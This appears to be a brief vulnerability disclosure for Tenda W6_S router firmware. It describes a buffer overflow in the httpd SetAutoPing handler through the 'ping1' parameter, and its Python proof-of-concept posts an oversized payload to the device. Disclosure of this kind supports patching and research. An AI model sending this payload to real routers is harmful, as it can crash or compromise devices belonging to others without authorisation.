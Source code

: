# buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formSetAutoPing via parameter 'ping1'

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](5.png)

get value from ping1, then call sprintf, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetAutoPing"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'ping1': payload, 'linkEn':1})
``` 
